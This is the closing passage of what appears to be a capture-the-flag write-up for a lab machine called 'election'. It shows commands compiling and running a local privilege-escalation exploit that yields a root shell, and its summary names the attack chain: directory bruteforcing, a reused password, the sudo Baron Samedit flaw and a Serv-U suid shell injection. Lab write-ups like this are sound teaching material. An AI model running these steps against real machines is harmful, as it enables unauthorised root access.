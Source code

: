 ```
    return errno;
}
```

We can read about how the exploit works [Here](https://blog.vastart.dev).
We have gcc on the machine

```
love@election:/usr/local/Serv-U$ which gcc
/usr/bin/gcc
```

So let's transfer our exploit code, compile, and fire away!

```
love@election:/tmp$ gcc exploit.c -o pe
love@election:/tmp$ ./pe
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
#
```

And boom! Root!

In summary, we enumerated the webserver by bruteforcing directories. We found the `love` user as well as a public facing log file containing a password. The password was reused as the `love` user’s password on SSH, which had password authentication enabled. From there, we were able to both, a) abuse an outdated version of sudo to escalate our privileges using the `sudo baron samedit` exploit, or b) abuse the outdated Serv-U FTP suid executable via a shell injection vulnerability.
